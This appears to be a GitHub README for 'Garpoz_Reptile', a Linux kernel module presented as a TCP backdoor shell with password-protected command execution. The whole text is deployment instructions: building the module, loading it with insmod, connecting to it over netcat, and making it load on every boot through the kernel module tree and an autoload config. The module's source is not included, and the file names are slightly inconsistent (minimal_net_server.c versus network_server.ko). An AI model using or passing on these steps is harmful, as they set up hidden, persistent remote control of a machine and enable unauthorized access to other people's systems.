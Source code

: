# Garpoz_Reptile 🐍🍉

🚀 **Garpoz_Reptile – Kernel level TCP backdoor shell with password authentication and command execution**

---

## 📥 Installation

### 1) Install kernel headers

Check your running kernel version:

```bash
uname -r
```

Install matching headers for your distro:

**Debian, Ubuntu, Raspberry Pi OS**

```bash
sudo apt-get update
sudo apt-get install linux-headers-$(uname -r) build-essential
```

**Fedora, CentOS Stream, RHEL**

```bash
sudo dnf install kernel-devel-$(uname -r) gcc make
```

**Arch Linux**

```bash
sudo pacman -Syu --noconfirm
sudo pacman -S --noconfirm linux-headers base-devel
```

> Headers must match `$(uname -r)` or the build will fail.

---

### 2) Get the source

```bash
git clone https://github.com/GarpozMaster/Garpoz_Reptile.git
cd Garpoz_Reptile
```

The module source is now in your working directory.

---

## 🔧 Configure

Edit the file `minimal_net_server.c` to set your port and password:

```c
#define PORT 9999
#define PASSWORD "change_me"
```

make it after changes:

```bash
make
```

---

## 🚀 Usage

### Activate the module

```bash
sudo insmod network_server.ko
```

Verify it is loaded:

```bash
lsmod | grep network_server
```

### Connect to it

Use netcat from the same host or a host that can reach the chosen IP and port:

```bash
nc -v <ip> <port>
# example for local test:
# nc -v 127.0.0.1 9999
```

You will be prompted for the password.

### Deactivate the module

```bash
sudo rmmod network_server
```

---

## ♻️ Persistent load at boot

1. Copy the module to the kernel tree:

```bash
sudo cp network_server.ko /lib/modules/$(uname -r)/kernel/drivers/
```

2. Regenerate dependencies:

```bash
sudo depmod -a
```

3. Create an autoload config:

```bash
echo network_server | sudo tee /etc/modules-load.d/network_server.conf
```

Now the module will load automatically on boot. ✅

---

## 🧰 Clean build artifacts

```bash
make clean
```

---

## 🛠️ Dependencies

* Matching kernel headers for `$(uname -r)`
* Standard toolchain: `make`, `gcc`
* Module tools: `insmod`, `rmmod`, `depmod`

---

## 📄 License

This project is licensed under **GPL**. See `LICENSE` for details.

---

Made with ⚡ by **GarpozMaster**
